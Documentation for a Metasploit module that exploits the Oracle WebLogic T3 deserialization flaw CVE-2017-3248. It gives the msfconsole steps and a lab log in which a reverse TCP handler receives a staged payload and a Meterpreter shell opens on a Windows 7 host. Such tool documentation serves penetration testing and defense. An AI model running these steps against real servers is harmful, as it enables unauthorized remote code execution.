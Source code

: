 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.1 are vulnerable to a deserialization vulnerability (CVE 2017-3248) in the core Components subcomponent due to unsafe deserialization of Java objects by the RMI registry and produce a JRMP connection from the target, which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

 Note that successful exploitation will output the following warning to the admin server console:

```
<Mar 26, 2019 4:13:24 PM CDT> <Error> <RJVM> <BEA-000503> <Incoming message header or abbreviation processing failed
 java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
        at $Proxy57.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:327)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:39)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:25)
        Truncated. see log file for complete stacktrace
```

## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.1.

## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_unicastref`
 3. `set srvhost <srvhost>`
 4. `set srvport <srvport>`
 5. `set rhosts <rhost>`
 6. `set rport <srvport>`
 7. `exploit`
 8. `sessions -i 1`

## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set srvhost 192.168.192.136
 srvhost => 192.168.192.136
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set srvport 8888
 srvport => 8888
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > exploit
 [*] Exploit running as background job 17.

 [*] Started reverse TCP handler on 192.168.192.136:4444 
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] 192.168.192.6:7001 - Sending payload to client: 192.168.192.6
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 9 opened (192.168.192.136:4444 -> 192.168.192.6:49283) at 2018-12-14 11:45:44 -0800
 [*] 192.168.192.6:7001 - Server stopped.
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > sessions -i 9
 [*] Starting interaction with 9...

 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows

 ```
